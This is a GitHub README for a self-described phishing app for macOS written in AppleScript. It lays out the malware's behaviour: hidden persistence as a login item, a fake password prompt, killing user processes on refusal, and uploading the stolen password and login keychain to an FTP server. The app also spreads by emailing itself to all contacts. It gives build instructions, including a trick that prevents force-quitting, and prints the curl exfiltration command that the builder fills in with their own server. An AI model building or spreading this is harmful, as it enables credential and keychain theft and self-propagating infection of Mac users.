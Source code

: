 Benb116's Phishing app for Mac
==========================

**Use this tool at your own risk. Don't do anything illegal. I do not accept any responsibility for any damages or harm done. This is purely an educational endeavor (for me).**

This is a phishing app that I wrote. It is written in applescript, which is important because it shows that potentially harmful tools can be written using a simple language and relatively limited programming knowledge. It is small and works on macs, whose users often don't worry about malware on their computers. This makes the app more effective, especially when disguised as a music file or photo. 

**Here's what it does:**

* It makes a new hidden directory in the user's public folder, then checks for a killswitch
* It copies a duplicate of itself to the folder and sets it as a login item
* It prompts the user to enter their password into a dialog box. If the user doesn't enter it within 10 seconds, the script sets itself as a login item, then kills all user processes, making the user have to restart in order to use the computer.
![image](http://f.cl.ly/items/3E0x2P0l452W2B1p2T0m/Prompt.png)
*  It copies the password, username, date, WAN IP, and LAN IP to a text file in the hidden folder in the user's public folder ![image](http://cl.ly/KB3S/Screenshot%202012-10-16%20at%206.47.02%20AM.jpg)
*  It uploads this file to an FTP server
*  It copies the user's login keychain into the same folder and uploads it to the same FTP server
*  It sends an email to all of the user's contacts' emails with the app attached.

The script is saved as an application with a duplicate application inside of it. It copies the inner application to the hidden folder and sets it as a login item.

 **Please feel free to test the script by doing the following:**

1. In 'App.applescript' and 'Updater.applescript' find the command that uploads the text file to an FTP server.
2. Replace the parts of the code in '<>' with your information.

	* Before:

			tell application "Finder" to do shell script "curl -T ~/Public/" & ufld & "" & theuser & ".txt -u <User>:<Password> ftp://<ftp address></path/to/folder/>" & theuser & "_" & WANIP & "_" & dte & ".txt" -- Upload text file to FTP server
		
	* After:
	
			tell application "Finder" to do shell script "curl -T ~/Public/" & ufld & "" & theuser & ".txt -u Benb116:1234 ftp://123.456.789.0/Desktop/Passwords/" & theuser & "_" & WANIP & "_" & dte & ".txt" -- Upload text file to FTP server3. Repeat steps 1 and 2 in both files with the command that uploads the keychain file.
4. Save App.applescript as an application (example name "App.app")
5. Add the following 2 lines of code to the "info.plist" file in "App.app/Contents/" folder

		<key>NSUIElement</key>
        <string>1</string>
(this prevents a dock icon from appearing and also makes it impossible to force quit the app)
6. Add the file "icon.icns" to the resources folder of "App.app"
7. Save Updater.applescript as an application named "Updater.app"
8. Repeat step 5 and 6 for "Updater.app"
9. Copy Updater.app to the resources folder "App.app"

The resources folder of the "App.app" should look something like this:

![image](http://f.cl.ly/items/2e1H2C3p1L401D1a3944/Screen%20Shot%202012-12-18%20at%207.55.22%20PM.png)
